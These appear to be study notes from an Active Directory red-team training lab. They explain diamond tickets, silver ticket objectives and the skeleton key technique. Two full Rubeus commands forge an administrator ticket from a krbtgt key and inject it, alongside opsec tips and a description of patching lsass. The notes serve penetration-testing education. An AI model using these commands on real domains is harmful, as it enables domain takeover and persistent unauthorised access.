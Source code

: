 
Learning Objective 9

 Try to get command execution on the domain controller by creating silver tickets for:

– HOST service
– WMI



## Diamond Ticket

- its created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account
- golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack
- the persistence lifetime depends on krbtgt account

A diamond ticket is more opsec safe as it has:
```powershell
→ valid ticket times because a TGT issued by the DC is modified
→ in golden ticket, there is no corresponding TGT request for TGS/Service tickert requests as the TGT is forged
```

We would still need krbtgt AES keys. **Use the following Rubeus command to create a diamond ticket** (note that RC4 or AES keys of the user can be used too):
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We could also use **/tgtdeleg** option in place of credentials in case we have access as a domain user:
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg 	/enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Learning Objective 10

- Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack.



## Skeleton Key

> not recommended to do in an assessment
> **Its not opsec safe** and is also known to cause issues with AD CS

- its a persistence technique where its possible to patch a Domain Controller **(lsass process)** so that it allows access as any user with a single password

> not persistent across reboots 

